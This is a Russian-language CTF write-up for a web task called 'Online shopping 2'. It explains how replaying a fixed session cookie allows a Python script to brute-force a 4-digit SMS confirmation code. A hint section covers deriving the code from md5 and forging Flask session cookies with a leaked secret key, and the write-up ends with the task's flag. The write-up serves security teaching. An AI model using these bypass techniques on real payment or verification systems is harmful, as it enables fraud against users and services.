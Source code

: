 # Online shopping 2: Write-up

*Рекомендуется читать после разбора Online shopping 1.*

Снова заходим на сайт и видим два товара. Пытаемся купить Флаг CTF. Вводим
16-значный номер карты, видим код подтверждения.

В этот раз в адресной строке нет никаких параметров. Однако, все сообщения выводятся.
Более того, после 5 неверных попыток ввода SMS-кода нельзя ничего купить.

Как может идти проверка? Видим, что создаётся кука `session` с непонятным
содержанием, после удаления которой можно начать заново.

Замечаем, что кука меняется в двух случаях:
* после ввода номера карты
* после ввода пин-кода

Попробуем зафиксировать куку перед первой неверной попыткой и будем перебирать
пин-код, пока нам отдают ответ о том, что код неверен.

```python
import requests
COOKIE = "your_session_cookie_here"
URL = "https://web250.ctf.upml.tech/check_code/"
for code in range(10000):
    r = requests.post(URL, data={'code': '{:>04d}'.format(code)}, cookies={'session': COOKIE})
    if "Обработка" in r.text:
        print(code, " ---")
    else:
        print(code, " OK")
        print(r.text)
```

Через какое-то время в консоли появляется HTML-код страницы с информацией
об успешной покупке. По ссылке и получаем флаг.

## Что делать с подсказкой?

После публикации подсказки таск многократно облегчался. Находим место, описывающее
способ генерации секретного кода. Проделываем то же самое (последние 4 цифры
десятеричной записи md5 от номера товара и номера карты) и получаем SMS-код.

Более того, можно было поставить себе экземпляр Flask, воспользоваться секретным
ключом нашего сервера и сгенерировать себе сессионную куку с ключами
`success=True` и `good_id=2`.

Флаг: **uctf_cookies_are_not_safe**
